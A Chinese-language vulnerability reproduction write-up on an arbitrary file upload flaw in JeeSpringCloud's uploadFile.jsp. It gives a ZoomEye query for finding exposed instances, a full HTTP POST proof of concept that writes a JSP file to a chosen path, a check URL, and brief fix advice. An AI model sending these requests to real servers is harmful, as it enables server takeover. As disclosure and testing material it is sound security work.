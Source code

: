 
# JeeSpringCloud uploadFile.jsp 文件上传漏洞复现

###  0x01 产品简介

  JeeSpringCloud是一款免费开源的JAVA互联网云[快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)，微服务分布式代码生成的敏捷开发系统架构，项目代码简洁、注释丰富、上手容易、还同时集中分布式、分布式事务、微服务,同时包含许多基础模块和监控、服务模块，JeeSpringCloud GVP项目、1k+Star项目。

### 0x02 漏洞概述

 JeeSpringCloud 是一款免费开源的 Java 互联网云快速开发平台。JeeSpringCloud 访问 /static/uploadify/uploadFile.jsp 可上传任意文件，并可通过 uploadPath 参数指定文件上传路径，导致服务器被控制。

### 0x03 复现环境

钟馗之眼：app:"JeeSpringCloud"

![](assets/1701138387-9421c54b56b98f384b08e13d608fee13.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /static/uploadify/uploadFile.jsp?uploadPath=/static/uploadify/ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 199
Content-Type: multipart/form-data; boundary=0d0d9bdfedC1bF17Cb47265DdCb04266
Accept-Encoding: gzip
Connection: close

--0d0d9bdfedC1bF17Cb47265DdCb04266
Content-Disposition: form-data; name="fileshare"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("hello"); %>
--0d0d9bdfedC1bF17Cb47265DdCb04266--
```

![](assets/1701138387-8956284e41a6edbfbe537d97915abb48.png)

验证路径

```cobol
http://your-ip/static/uploadify/回显的jsp文件名
```

![](assets/1701138387-5d46702c1e2408a89d80c191ed69a9e7.png)

### 0x05 修复建议

关闭互联网暴露面或文件上传模块设置权限认证

升级至安全版本
